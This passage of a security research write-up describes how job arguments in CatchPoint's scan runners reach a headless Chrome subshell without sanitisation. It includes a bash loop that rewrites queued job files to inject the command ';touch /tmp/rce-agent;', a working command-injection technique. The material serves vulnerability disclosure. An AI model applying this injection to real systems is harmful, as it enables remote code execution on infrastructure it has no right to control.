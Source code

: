 <img class="img_med" src="png-1001-ways.png" alt="png-1001-ways">

Yup. It's this one.


# 6. Then, how do we exploit the runners?

The master will write the scan/jobs details in a json file `work/jobs/<wk_name>/XXXX.YYYY.url`, and while it's doing this, the agents will continually poll for new jobs. The agents will start (for the requested scans) a chrome headless browser with every argument given in the json blob.

By now, I assume the trust boundary used by CatchPoint here was something like follows:

> "Let's try to prevent anyone from entering, but if they get there, OH BOY!"

What I mean by this, is that the arguments are taken from the json blob and used on the other side, without any sanitization, AND within a subshell execution, so by slightly modifying the json blob, we can push our minimal command injection to the agent, and get away with our newly acquired shell! 


# 7. Full exploit for RUNNERS!

First, we'll use our reverse shell to have a nice while loop that will inject our malicious command when a new job file is created:

```bash
# Jobs look like "work/jobs/Test/220719000003.220719_6G_1.url"
cd work/jobs/Test
while true; do
  file=$(grep -lrF -- --user-data-dir)
  sed -i 's#--user-data-dir#;touch /tmp/rce-agent;#g' "$file"
done
```
